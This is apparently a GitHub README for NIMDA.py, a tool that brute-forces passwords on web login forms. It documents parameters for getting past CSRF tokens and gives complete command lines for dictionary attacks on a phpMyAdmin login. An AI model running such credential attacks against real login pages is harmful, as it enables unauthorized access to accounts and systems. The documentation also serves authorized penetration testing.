



# Nimda.py, github download <a href="https://github.com/bichiko/nimda.py">link</a>
**NIMDA.py is a Bruteforcing tool for any login page.
You just need to provide necessary details and it is ready to go.**



## Parameters:

- *url* 
- *delay* 
- *username* 
- *password* 
- *post-data* 
- *csrf-selector* 
- *csrf-token-name* 
- *content-text* 
- *not-content-text* 
- *content-header* 
- *not-content-header* 
- *first-match* 
- *status-code* 
- *show-response-html* 
- *show-response-header* 
- *progress-bar* 
- *verbose* 
- *redirect-check* 
- *cookies* 
- *user-agent* 
- *method* 


## Explanation

**help** -> Display help

**delay** -> Delay in milliseconds per request

**url** -> Set target url for submission post request
example: `python nimda.py url='http://exmpl.cm/lg.php'` 

**username** -> Set username details with HTML form name and its value
example: `<input type="text" value="site_admin" name="pg_user">`

then: `python nimda.py username='pg_user=site_admin'`

**password** -> Set dictionary file
example: `<input type="password" value="" name="pg_passwd">`

Dict file: `./lsts/passwords.lst`

then: `python nimda.py password='pg_passwd=./lsts/passwords.lst'`


Some login forms are protected with CSRF TOKENS.
Web page generates a token, injects in login page and expects that value for the next login request.
If it's not there or is incorrect value then server blocks current request.
But we can bypass it by specifying csrf-token-name and csrf-selector
example: `<input type="hidden" value="GFHKJ4576jhasldL:IUGBVCRTU" name="cstf_hid_token">`
then: `csrf-token-name='cstf_hid_token'`
And `csrf-selector` is `document.querySelector` syntax in order to find this value inside response HTML and send it back.

then: `csrf-selector='input[name="cstf_hid_token"]'`
so result looks like:
```
python nimda.py url='http://exmpl.cm/lg.php' username='pg_user=site_admin' password='pg_passwd=./lsts/passwords.lst' csrf-token-name='cstf_hid_token' csrf-selector='input[name="cstf_hid_token"]'
```


**post-data** -> it is all post data parameters+value except csrf-token username and password
example: 
```
<input type="submit" name="login" value="Sign In">
<input type="hidden" name="error" value="0">
```
then: `data='login=Sign In&error=0'`


**content-text** -> Set unique text that contains only if page has successful authentication response
Like: **Welcome**, **Successful login** and etc.


**not-content-text** -> Set unique text that contains unsuccessful authentication response and isn't display in success response
Like: **Wrong**, **Incorrect login** and etc.

**content-header** and **not-content-header** are working likwise

**progress-bar** -> Display progress

**verbose** -> display more text

**first-match** -> Stop when program finds first match combination 

**status-code** -> Return correct if status code matches passed value of code

**cookies** -> Set custom cookies 

**user-agent** -> Set custom user-agent 

**method** -> Set request method type. default is POST 

**redirect-check** -> Enable or disable redirect checking. Default is True ( option False) 


# Example of brute-forcing *phpmyadmin*

HTML form: 
```
 <form method="post" action="index.php" name="login_form" class="disableAjax login hide js-show">
    <fieldset>
    	<legend>Log in<a href="./doc/html/index.html" target="documentation"></a>
        </legend>
        <div class="item">
            <label for="input_username">Username:</label>
            <input type="text" name="pma_username" id="input_username" value="" size="24" class="textfield"/>
        </div>
        <div class="item">
            <label for="input_password">Password:</label>
            <input type="password" name="pma_password" id="input_password" value="" size="24" class="textfield" />
        </div>
        <input type="hidden" name="server" value="1" />
    </fieldset>
    <fieldset class="tblFooters">
        <input value="Go" type="submit" id="input_go" />
        <input type="hidden" name="target" value="index.php" />
        <input type="hidden" name="token" value="4d604030d09328d67c268585d47134b9" />
    </fieldset>
    </form>
```

Post data:
```
pma_username=root&pma_password=blahblah&server=1&target=index.php&token=4d604030d09328d67c268585d47134b9
```
*token* is CSRF protection 

Displays Error : `Access denied for user` which is only if authentication fails

Our Code for Brute-forcing is:

```
python nimda.py delay='10' url='http://localhost/phpmyadmin/index.php' username='pma_username=root,admin,nimda,ttu' password='pma_password=./small.txt' csrf-token-name='token' csrf-selector='input[name="token"]' post-data='server=1&target=index.php' not-content-text='Access denied for user'
```



```
python nimda.py url='http://localhost/phpmyadmin/index.php' username='pma_username=root,admin,ttu,nimda' password='pma_password=./small.txt' csrf-token-name='token' csrf-selector='input[name="token"]' post-data='server=1&target=index.php' content-text='information_schema' progress-bar
```

